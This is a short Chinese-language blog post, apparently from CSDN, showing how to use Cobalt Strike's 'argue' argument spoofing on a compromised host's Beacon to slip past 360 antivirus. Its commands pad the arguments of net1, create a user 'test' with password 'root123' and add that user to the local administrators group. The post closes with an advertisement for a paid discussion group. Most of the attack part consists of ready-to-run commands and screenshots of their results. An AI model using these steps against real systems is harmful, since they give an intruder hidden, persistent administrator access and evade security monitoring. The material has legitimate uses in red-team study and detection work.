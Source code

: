 > 在获取了对方主机CobaltStrike Beacon后，需要执行一些敏感的操作(如创建用户等)。但是目标主机有AV，执行敏感命令会直接报毒等，这时我们可以使用Cobaltstrike自带的argue参数污染来执行敏感操作。

### 使用argue参数污染创建新用户并加入管理员组中

**使用前提**：administrator 或 system权限。

执行创建新用户命令，360报毒

![](https://img-blog.csdnimg.cn/20200620225159689.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用argus参数污染 net1 

```
#参数污染net1      
argue net1 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx       
#查看污染的参数      
argue
```


![](https://img-blog.csdnimg.cn/20200620225310521.png)

用污染的 net1 创建用户，发现创建成功，360也不报毒

```
#用污染的net1执行敏感操作      
execute net1 user test root123 /add      
execute net1 localgroup administrators test /add
```


![](https://img-blog.csdnimg.cn/20200620225150550.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/2020062022552939.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)11176 人正在系统学习中